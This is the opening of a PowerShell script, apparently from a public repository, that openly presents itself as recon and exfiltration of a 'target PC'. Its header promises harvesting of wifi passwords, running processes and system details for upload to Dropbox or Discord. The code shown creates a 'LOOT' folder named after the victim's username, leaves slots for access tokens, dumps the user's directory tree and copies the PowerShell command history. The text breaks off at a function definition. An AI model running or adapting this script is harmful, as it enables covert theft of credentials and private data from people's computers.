#
.SYNOPSIS
	This is an advanced recon of a target PC and exfiltration of that data.
.DESCRIPTION 
	This program gathers details from target PC to include everything you could imagine from wifi passwords to PC specs to every process running.
	All of the gather information is formatted neatly and output to a file.
	That file is then exfiltrated to cloud storage via Dropbox.
.Link
      https://developers.dropbox.com/oauth-guide	    # Guide for setting up your Dropbox for uploads
      https://www.youtube.com/watch?v=Zs-1j42ySNU           # My youtube tutorial on Discord Uploads 
      https://www.youtube.com/watch?v=VPU7dFzpQrM           # My youtube tutorial on Dropbox Uploads
#>

############################################################################################################################################################

# MAKE LOOT FOLDER, FILE, and ZIP 

$FolderName = "$env:USERNAME-LOOT-$(get-date -f yyyy-MM-dd_hh-mm)"

$FileName = "$FolderName.txt"

$ZIP = "$FolderName.zip"

New-Item -Path $env:tmp/$FolderName -ItemType Directory

############################################################################################################################################################

# Enter your access tokens below. At least one has to be provided but both can be used at the same time. 

#$db = ""

#$dc = ""

############################################################################################################################################################

# Recon all User Directories
tree $Env:userprofile /a /f >> $env:TEMP\$FolderName\tree.txt

# Powershell history
Copy-Item "$env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt" -Destination  $env:TEMP\$FolderName\Powershell-History.txt

############################################################################################################################################################

function Get-fullName {
